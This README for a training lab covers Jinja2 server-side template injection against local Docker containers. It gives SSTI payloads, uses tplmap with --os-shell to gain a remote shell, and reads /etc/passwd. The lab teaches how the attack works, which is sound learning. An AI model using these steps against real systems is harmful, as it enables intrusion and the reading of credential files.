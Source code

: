 # Server-Side Template Injection
> Server-Side Template Injection using python2.7 and Jinja2 template 

## Basic Server-Side Template Injection (SSTI)

* Using Docker 

* Step 1: Run application as a docker

```
docker run --name ssti-basic -d  -p 5000:5000 ti1akt/ssti-basic
```

* Step 2: Open browser

```
http://127.0.0.1:5000
```

* Step 3: In the Input field enter your name. Then click submit button

* Step 4: It will redirect into another page with entered text.

* Step 5: Click Back to Home button

* Step 5: Now try `{{ 1 + 1 }}` in the input field then click submit. It should show `2`.

* Step 6: Let's try some payload

```
{{request.__class__}}
```

**Note:** It should return  template name.

### Clean docker 

* Step 1: Stop the application

```
docker stop ssti-basic && docker rm ssti-basic
```

## Advanced Server-Side Template Injection (SSTI)

* Using Docker 

* Step 1: Run application as a docker

```
docker run --name ssti-advanced -d -p 5000:5000 ti1akt/ssti-advanced
```

* Step 2: Open browser

```
http://127.0.0.1:5000
```

* Step 3: Click `Create Page` button and create some page.

* Step 4: Once created click `view` button and preview the website page.

* Step 5: In the address bar add  `http://127.0.0.1:5000/ssti?name=Tilak` and press enter.

* Step 6: It will show what you entered in the `name`.

* Step 7: Now Let's try with tool to identify and gain **RCE** .

* Step 8: Download `tplmap` [Click Here](https://github.com/epinna/tplmap)

* Step 9: Let's scan the application

```
./tplmap.py -u 'http://127.0.0.1:5000/ssti?name=Tilak'
```

* You will see a result like this

```
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux2
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```

* Step 10: Let's  try to gain `RCE`

```
./tplmap.py --os-shell -u 'http://127.0.0.1:5000/ssti?name=Tilak'
```

* You will see a result like this

```
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux2
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Run commands on the operating system.
posix-linux2 $
```

* Now just try some commands

```
ls
```

```
whoami
```

```
cat /etc/passwd
```


### Clean docker 

* Step 1: Click `ctrl+c`

* Step 2: Stop container

```
docker stop ssti-advanced && docker rm ssti-advanced
```